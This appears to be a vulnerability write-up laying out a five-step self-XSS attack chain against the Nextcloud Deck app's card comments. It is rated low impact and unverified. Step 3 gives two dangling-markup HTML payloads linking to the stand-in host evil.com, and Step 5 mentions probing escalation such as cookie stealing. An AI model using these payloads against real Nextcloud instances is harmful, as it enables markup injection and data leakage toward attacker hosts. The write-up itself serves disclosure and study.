

# Self XSS in Nextcloud Deck App via Unsanitized HTML Comments

Multi-stage attack chain demonstrating a complete self-XSS workflow in the Nextcloud Deck app, where insufficient HTML sanitization in card comments enables injection of malicious scripts that execute only when the attacker views their own comment.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Firefox or Chrome for manual testing)

### Target Environment

- Nextcloud 27.0.0.8 instance running locally
- PHP-based web application
- Deck app enabled

### Initial Access Requirements

- Local network access to the Nextcloud instance
- Valid user credentials for authentication
- No prior remote access needed; local setup

## Detailed Attack Procedures

### Step 1: Setup Environment
procedure: [[procedures/Setup-Nextcloud-Instance-Locally]]

**Objective**: Establish a local Nextcloud instance to replicate the vulnerability environment.

**Instructions**: Install and configure Nextcloud 27.0.0.8 on localhost using standard setup guides. Ensure the Deck app is installed and enabled.

**Expected Output**: A running Nextcloud instance accessible at http://localhost.

**Success Indicators**:
- Nextcloud login page loads successfully
- Deck app appears in the app menu

### Step 2: Access Deck App and Create Card
procedure: [[procedures/Access-Deck-App-and-Create-Card]]

**Objective**: Authenticate and navigate to the Deck app to prepare for comment injection.

**Instructions**: Log in with user credentials via the web interface, then go to the Deck section, create a new board and card, and open the comments section.

**Expected Output**: Comments interface open on a new card.

**Success Indicators**:
- Successful login
- Card created with comments accessible

### Step 3: Inject HTML Payload in Comments
procedure: [[procedures/Inject-HTML-Payload-in-Comments]]

**Objective**: Enter malicious HTML into the comment field to exploit the sanitization flaw.

**Instructions**: In the comments box, input an HTML payload such as a malicious link with font styling and a base target override. For example, enter: `<a href="http://evil.com/dangling_markup/name.html">You must click me</a><base target="`. An alternative payload could be: `<a href="http://evil.com/dangling_markup/name2.html">You Hacked by BhaRat</a><base target="`.

**Expected Output**: Payload entered without immediate error.

**Success Indicators**:
- Payload accepted in the comment input field
- No client-side validation blocks the HTML

### Step 4: Submit and Observe Self-XSS Execution
procedure: [[procedures/Submit-and-Observe-Self-XSS-Execution]]

**Objective**: Submit the comment and view it to trigger one-time script execution.

**Instructions**: Click the send button on the comment. Refresh or revisit the card comments to view the injected content, observing the HTML execution (e.g., styled link and potential script trigger).

**Expected Output**: Malicious HTML renders and executes upon viewing by the attacker.

**Success Indicators**:
- Script executes one-time when viewing the comment
- No execution for other users

### Step 5: Attempt Persistent Script Execution
procedure: [[procedures/Attempt-Persistent-Script-Execution]]

**Objective**: Explore methods to extend the self-XSS beyond one-time execution for potential escalation like cookie stealing.

**Instructions**: Test variations of payloads for persistence, such as embedding JavaScript in attributes or chaining with other features. Note that the vulnerability is non-persistent by default.

**Expected Output**: Limited to one-time execution; no built-in persistence found.

**Success Indicators**:
- Confirmation of non-persistence
- Identification of potential escalation paths if combined with other flaws

## Attack Chain Summary

### Key Achievements

1. Successful local setup and access to vulnerable Deck app
2. HTML injection via comments leading to self-XSS
3. Observation of one-time script execution
4. Assessment of low impact due to self-only visibility
5. Exploration of persistence limitations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
